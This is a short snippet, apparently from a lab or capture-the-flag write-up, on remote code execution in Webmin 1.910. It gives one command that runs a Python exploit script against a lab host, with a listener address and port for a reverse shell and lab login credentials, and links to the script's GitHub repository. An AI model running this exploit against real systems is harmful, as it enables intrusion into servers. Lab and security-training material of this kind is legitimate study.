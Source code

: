 # Webmin 1.910 - Remote Code Execution Using Python Script 

    $ python webmin_exploit.py --rhost 10.10.10.160 --rport 10000 --lhost 10.10.14.12 --lport 1234 -u Matt -p computer2008 -s true

code download mari: https://github.com/roughiz/Webmin-1.910-Exploit-Script 